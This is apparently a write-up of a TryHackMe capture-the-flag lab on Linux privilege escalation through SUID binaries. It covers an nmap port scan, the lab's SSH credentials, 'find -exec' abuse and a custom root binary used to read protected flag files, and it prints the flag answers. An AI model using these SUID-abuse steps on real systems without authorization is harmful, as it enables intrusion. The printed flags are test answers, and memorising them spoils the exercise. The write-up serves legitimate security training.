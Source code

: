# [Day 8] SUID Shenanigans 08/12/2019

## Description

Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

Deploy and SSH into the machine.
* Username: `holly`
* Password: `tuD@4vt0G*TU`

SSH is not running on the standard port.. You might need to nmap scan the machine to find which port SSH is running on.

`nmap <machine_ip> -p <start_port>-<end_port>`

Read the supporting materials [here](https://blog.tryhackme.com/linux-privilege-escalation-suid/).

## #1 - What port is SSH running on?

SSH is running on port `65534`.
~~~
$ sudo nmap -sS -sV -A -p- 10.10.188.177
[sudo] password for unknown: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-02 08:10 CEST
Nmap scan report for 10.10.188.177
Host is up (0.046s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE VERSION
65534/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:59:b7:f7:3d:5e:11:92:24:91:03:cd:fa:7e:c7:e6 (RSA)
|   256 15:eb:e2:c6:9e:fb:18:a2:ce:b2:e6:96:87:f7:fa:f8 (ECDSA)
|_  256 f8:8b:d5:02:1b:2f:59:67:a9:f5:bc:a5:7b:ef:2b:50 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/2%OT=65534%CT=1%CU=34091%PV=Y%DS=2%DC=T%G=Y%TM=5EAD0
OS:F96%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)O
OS:PS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508S
OS:T11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)E
OS:CN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   47.20 ms 10.9.0.1
2   45.90 ms 10.10.188.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.66 seconds
~~~

## #2 - Find and run a file as igor. Read the file /home/igor/flag1.txt

Let's connect with `ssh holly@10.10.188.177 -p 65534` and password `tuD@4vt0G*TU`.

Unfortunately, we have insufficient permissions to read `/home/igor/flag1.txt`. Let's see start by listing files owned by `igor` with the `SUID` bit set.

~~~
holly@ip-10-10-188-177:~$ find / -user igor -perm -4000 -print 2>/dev/null
/usr/bin/find
/usr/bin/nmap
~~~

For older versions of `nmap` there was an interactive mode which allowed to execute commands. However, the version of `nmap` is recent, and the `--interactive` option is no longer available.

~~~
holly@ip-10-10-188-177:~$ nmap --interactive
nmap: unrecognized option '--interactive'
Nmap 7.01 ( https://nmap.org )
[SNIP]
~~~

Let's try with `find`. This command is owned by `igor`:

~~~
$ ls -l /usr/bin/find
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
~~~

`find` allows to read the flag.

~~~
$ find /home/igor/flag1.txt -exec cat {} \;
THM{d3f0708bdd9accda7f937d013eaf2cd8}
~~~

## #3 - Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

Now, we need to run a program as `root`. Let's find files that are owned by `root` with `SUID` bit set:

~~~
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/ping
/bin/umount
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/snap/core/7396/bin/mount
/snap/core/7396/bin/ping
/snap/core/7396/bin/ping6
/snap/core/7396/bin/su
/snap/core/7396/bin/umount
/snap/core/7396/usr/bin/chfn
/snap/core/7396/usr/bin/chsh
/snap/core/7396/usr/bin/gpasswd
/snap/core/7396/usr/bin/newgrp
/snap/core/7396/usr/bin/passwd
/snap/core/7396/usr/bin/sudo
/snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7396/usr/lib/openssh/ssh-keysign
/snap/core/7396/usr/lib/snapd/snap-confine
/snap/core/7396/usr/sbin/pppd
/usr/bin/system-control
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
~~~

`ping` has the SUID bit set, which should not be the case. However, I haven't been able to exploit it to access the flag.

Playing a bit with the list, I found out that `system-control` seems to be a custom binary (not found anywhere else on my Linux boxes). It simply executes commands as `root`:

~~~
holly@ip-10-10-188-177:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: cat /root/flag2.txt
THM{8c8211826239d849fa8d6df03749c3a2}
~~~

## #4 - If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: https://tryhackme.com/room/privescplayground 

